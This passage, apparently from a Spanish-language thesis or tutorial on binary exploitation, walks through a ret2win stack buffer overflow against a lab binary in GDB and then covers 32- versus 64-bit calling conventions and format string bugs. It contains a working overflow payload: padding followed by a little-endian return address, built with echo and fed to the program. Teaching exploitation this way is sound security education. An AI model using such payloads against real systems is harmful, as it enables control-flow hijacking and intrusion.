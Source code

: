 \begin{lstlisting}[language=bash, caption=Explotación de GDB con binario ret2win]
# Para que el programa entienda esa direccion de memoria, se necesita pasarlo en formato bytes
# Ademas dependiendo del endianness (Forma en la que lee las variables el binario), se necesita cambiar el orden
# En este caso (y en la gran mayoria) se usa little endian, se puede revisar usando show endian, por lo cual el valor que se debe pasar al programa es (0xa6910408)
# Se puede crear el payload usando bash con el siguiente comando: echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
# Por ultimo, se carga como entrada al binario
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
(gdb) run < payload.txt
# Continuamos
(gdb) c
(gdb) c
Continuing.
Dime algo: 

Breakpoint 3, 0x080491ac in ret2win ()
# Stack Buffer overflow conseguido, se ha ejecutado la funcion ret2win
\end{lstlisting}

Con esta prueba de concepto, se puede entender el peligro de un \acrshort{bof}.
Aunque en esta demostración se tuviera una función `ret2win' que permite ejecutar una consola, hay otras técnicas que permiten llegar al mismo punto mediante librerías comunes como \acrshort{libc}.

\subsubsection{Diferencias entre 32bits y 64bits}
En la actualidad, las arquitecturas están basadas en sistemas 64bits.
Estas arquitecturas comparten gran parte de la convención de llamadas de 32bit, sin embargo, la forma en la que se comparten los parametros entre funciones se realiza de una forma diferente.
En las arquitecturas 32bit los parametros se comparten mediante el stack como se ha referenciado en la figura \ref{fig:stack-arch}.
En el caso de 64bit, los parametros se comparten mediante registros específicos. Además, el analogo al \acrshort{eip} que es el RIP en 64bits soporta direcciones de memoria menores a 0x00007FFFFFFFFFFF, es decir, 48bits.
Dependiendo del sistema operativo se usan unos registros u otros para compartir los parámetros.

Toda la información relacionada con la convención de llamadas de 64bit sobre linux se puede encontrar en el borrador publicado por la Linux Foundation \cite{x64asm}.

\subsection{Vulnerabilidad tipo Format String}
El bug de tipo format string fue descubierto a principios de los 2000.
Al principio se consideró un bug, sin embargo, con el paso del tiempo se reconocieron los peligros que conllevaba este tipo de bug y pasó a considerarse una vulnerabilidad.

